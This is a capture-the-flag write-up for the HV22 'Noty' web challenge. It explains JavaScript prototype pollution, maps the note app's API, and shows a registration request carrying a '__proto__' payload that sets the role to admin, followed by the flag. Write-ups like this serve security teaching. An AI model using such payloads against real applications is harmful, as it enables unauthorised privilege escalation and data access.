

CSS: ../meta/avenir-white.css

[← Day 12](../day12/) / [↑ TOC](../README.md) / [→ Day 14](../day14/)


# Day 13 / HV22.13 Noty


## Challenge

* Author: HaCk0
* Tags:   `#web-security`
* Level:  medium

After the previous fiasco with multiple bugs in Notme (some intended and some
not), Santa released a now truly secure note taking app for you. Introducing:
Noty, a fixed version of Notme.

Also Santa makes sure that this service runs on green energy. No pollution from
this app ;)


## Solution

This challenge used the same notes web app as the one from [day 10](../day10/).
But obviously the previous bug was fixed.

The description contained a hint on the topic of the challenge: `pollution`.
Since it's already known that the server side runs _node.js_ it was evident that
this challenge is probably about _proto pollution_.

Proto pollution is a technique to "pollute" the prototype of the server runtime
with specificly crafted new properties. Since every object in javascript
implicitly has all the properties of the prototype object, it will also gain
these pollution properties. Under some circumstances it can happen that the code
uses prototype properties by the same name as real properties preferably to
the value that was actually inteded for said property. Often this is the case
if there is some sort of object merging going on, which is common in libraries
that parse JSON strings. Here's a [nice blog article][blogProto] explaining it
in more details.

[blogProto]: https://infosecwriteups.com/javascript-prototype-pollution-practice-of-finding-and-exploitation-f97284333b2

With the web app already mapped out ...

```
Procedures:

# Open page
GET  /api/user/me                        >   404 JSON msg:"No loggedin User found"

# Register user
POST /api/register  username,password    >   200 JSON id(int),username,password(hash),role,updatedAt,createdAt
GET  /api/note/all                       >   200 JSON [empty list]

# Login
POST /api/login     username,password    >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
GET  /api/note/all                       >   304(Not Modified)

# Change password
POST /api/User/1    password             >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
GET  /api/note/all                       >   304(Not Modified)

# Note create
POST /api/note/new  note                 >   200 JSON id(int),note,userId(int),updatedAt,createdAt
GET  /api/note/all                       >   200 JSON [ id(int),note,userId(int),createAt,updatedAt ]

# Open note
GET  /api/note/1                         >   200 JSON id(int),note,userId(int),createdAt,updatedAt
# Accessing a note-id you don't own      >   404 JSON msg:"not your note"
# Accessing a non-existing note-id       >   404 JSON msg:"note not found"
# Throws 500 if not int or 'all'

# Update note
POST /api/note/update id(int),note,userId(int),createdAt,updatedAt
                                         >   200 JSON msg:"Updated"
GET  /api/note/all                       >   200 JSON [ id(int),note,userId,createAt,updatedAt ]

# Logout
GET  /api/user/logout                    >   200 JSON msg:"logged out"

# Query user
GET  /api/User/1                         >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
# Accessing another user id              >   ??? JSON msg:"Cannot access user"
# Value can be 'all'                     >   ??? JSON msg:"Cannot access user"
```

... by bet was, that I'm supposed to gain a different `role`. It bugged me the
last time already that this property was not involved in attacking the web app.

Since in proto pollution it is important that the pollution happens _before_ new
objects are created, I tried it on the _register_ end point. And that proofed
successful after a few attempts ...

```sh
$ ./noty.sh post api/register \
'{"username":"leeloo","password":"multipass","__proto__":{"role":"admin"}}'

{"id":1,"username":"leeloo",\
"password":"62c62ddb87348ea2acb002838e0ff5cf6841111b09560831add172912ed3fc2c",\
"role":"admin","updatedAt":"2022-12-14T17:19:53.834Z","createdAt":"2022-12-14T17:19:53.834Z"}

$ ./noty.sh post api/login '{"username":"leeloo","password":"multipass"}'
{"id":1,"role":"admin","username":"leeloo","password":"62c62ddb87348ea2acb002838e0ff5cf6841111b09560831add172912ed3fc2c","createdAt":"2022-12-14T17:19:53.834Z","updatedAt":"2022-12-14T17:19:53.834Z"}

$ ./noty.sh api/note/all
[{"id":1337,"note":"HV22{P0luT1on_1S_B4d_3vERyWhere}","userId":1337,"createdAt":"2022-12-14T17:16:26.833Z","updatedAt":"2022-12-14T17:16:26.833Z"}]
```



--------------------------------------------------------------------------------

Flag: `HV22{P0luT1on_1S_B4d_3vERyWhere}`

[← Day 12](../day12/) / [↑ TOC](../README.md) / [→ Day 14](../day14/)
